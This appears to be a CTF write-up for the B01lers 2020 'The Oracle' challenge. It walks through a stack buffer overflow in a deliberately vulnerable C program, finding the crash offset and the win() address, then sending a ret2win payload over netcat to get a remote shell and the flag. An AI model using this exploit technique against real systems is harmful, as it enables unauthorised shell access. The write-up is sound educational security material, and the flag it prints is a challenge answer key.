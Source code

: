 ```yaml
---
layout : default
title  : APTx1337 | B01lers_CTF - The Oracle Writeup
---
```


## B01lers_CTF(The Oracle)

_**Oct 3-4, 2020**_

<br>


<h3 id="Challenge Description">Challenge Description</h3>

![Banner](../../../assets/images/b01lers_ctf/the_oracle_banner.png "Banner")

> Would you still have broken it if I hadn't said anything?
> nc chal.ctf.b01lers.com 1015
> [theoracle](../../../assets/resource/theoracle) Size: 16.54 KBMD5: ef25f23d8a2218004732f71bfbfa1267
> [theoracle.c](../../../assets/resource/theoracle.c) Size: 0.32 KBMD5: 888b851225717833a890745f158e973f


<br>

<h3 id="Solution">Solution</h3>

We start by reading the provided source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    char* argv[] = { NULL };
    char* envp[] = { NULL };

    execve("/bin/sh", argv, envp);
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    char buffer[16];

    printf("Know Thyself.\n");
    fgets(buffer, 128, stdin);
}
```

we can see that there is an interesting function called `win()`, if we managed to change the program flow and call `win()` fuction, we will be able to popup a shell on the remote server.

we start by checking for security implemented on the binary
```
m3dsec@local:~/03_The_Oracle_$ checksec theoracle
[*] '/home/m3dsec/b01lers.com/pwn/03_The_Oracle_/theoracle'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

NX is enabled, but thats no problem in our case, we don't need to inject our own shell code.

Searching for the buffer size
```
m3dsec@local:~/b01lers.com/pwn/03_The_Oracle_$ for i in {1..300};do echo $i; python -c "print('A' * $i)"|./theoracle;done
1
Know Thyself.
...
23
Know Thyself.
Segmentation fault
...
^C
```
i got a crash after 23 A's.


Then i had to grab the `win()` address
```
m3dsec@local:~/03_The_Oracle$ readelf -a theoracle|grep win
The decoding of unwind sections for machine type Advanced Micro Devices X86-64 is not currently supported.
    60: 0000000000401196    54 FUNC    GLOBAL DEFAULT   15 win
```



With all those information in mind, we can start smaching the stack.

```
m3dsec@local:~/03_The_Oracle$ (python -c "print '\x96\x11\x40\x00\x00\x00\x00\x00' * 5";cat)|nc chal.ctf.b01lers.com 1015
Know Thyself.
id
uid=1000(theoracle) gid=1000(theoracle) groups=1000(theoracle)
ls
Makefile
flag.txt
theoracle
theoracle.c
wrapper.sh
cat flag.txt
flag{Be1ng_th3_1_is_JusT_l1ke_b3ing_in_l0v3}
```

and, we got the flag !!

<br>
<br>

best regards, [m3dsec](https://github.com/m3dsec)

--------------

[back to B01lers_CTF()](../../ctf/b01lers.md)

[back to main()](../../../index.md)

